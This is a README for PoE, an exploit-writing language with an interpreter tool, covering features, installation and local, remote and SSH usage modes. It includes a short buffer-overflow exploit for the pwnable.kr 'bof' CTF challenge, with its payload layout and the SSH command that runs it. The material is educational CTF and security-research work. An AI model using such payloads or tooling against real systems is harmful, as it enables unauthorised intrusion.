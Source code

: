 PoE
===

PoE (Proof-of-Exploit) is a language designed specifically for writing an
exploit. It provides intuitive and concise syntax, which makes exploit
development easy and fun.

PoE runs on an interpreter `PoE.Replayer`, which is released as a [.NET tool](https://learn.microsoft.com/en-us/dotnet/core/tools/global-tools) on nuget.org [(link)](https://www.nuget.org/packages/PoE.Replayer).

See the [tutorial](tutorial) to learn more about PoE. For more details, please refer to our paper:
+ [Jung Hyun Kim, Steve Gustaman, and Sang Kil Cha. (2024), PoE: A Domain-Specific Language for Exploitation. In Proceedings of the Silicon Valley Cybersecurity Conference.](https://softsec.kaist.ac.kr/~sangkilc/papers/kim-svcc24.pdf)

## Features

+ Static typing
+ Simple and intuitive grammar for writing readable exploits
+ Language-level integration of SMT solving and inline assembly capability
+ Bit-vector manipulation
+ Various built-in functions
+ Automated `stdbuf` patching

## Installation

PoE supports major OSs including Windows, MacOS, and Linux distributions. And
you can easily install the released version of PoE via .NET.

### Prerequisite

+ [.NET 9+](https://dotnet.microsoft.com/en-us/download)

### Instruction

First, make sure you have installed .NET 9+ on your machine so that you can run
the command `dotnet` from your terminal.

Next, just run the following command to install `PoE.Replayer`:
```
dotnet tool install --global PoE.Replayer
```

After the installation, you should be able to run the command `poe` on your
machine. If so, you are all set.

### From source code

Instead of running the released version of PoE, you can also clone the latest
source code of PoE and run it directly:
```
git clone https://github.com/B2R2-org/PoE
cd PoE
dotnet run --project src/PoE.Replayer
```

## How to use

Basically, PoE supports two modes to interact with the target system:
+ Local mode: It runs the local binary to communicate with it.
+ Remote mode: It communicates with the remote service running on the specific
IP address and port number.

You can use either **Local mode** or **Remote mode** via the following commands:

+ Local mode: `poe stdin [replay options] <PoE> <bin path> [args]`
+ Remote mode: `poe net [replay options] <PoE> <ip> <port>`

Also, we provide another way to connect to the remote service via **SSH mode**,
where you can specify the username and password to log in to the remote host via
SSH:

+ SSH mode: `poe ssh [replay options] <PoE> <ip> <port> <user> <password>`

Running the PoE replayer without any parameters will show the other usages of
PoE.

### Example usage

Let us bring here an example CTF problem named `bof` from
[pwnable.kr](pwnable.kr). This problem has a buffer overflow vulnerability, and
you can easily write its exploit via PoE:

```
act exploit():
    bv payload = "A"x(0x2c + 0x8) . 0xcafebabe:u32 . "\n"
    write("nc 0 9000\n")
    write(payload)
    write("cat flag\n")
    return read(-1)

submit:
    return exploit()
```

And then, you can run the following command to run the exploit on the remote
service:
```
poe ssh bof.poe pwnable.kr 9000 bof guest
```
Note that you can also use Remote mode (`net`) when you connect to the remote
service using the other ways (e.g., via `nc`).

For more details, please see the [tutorial](tutorial).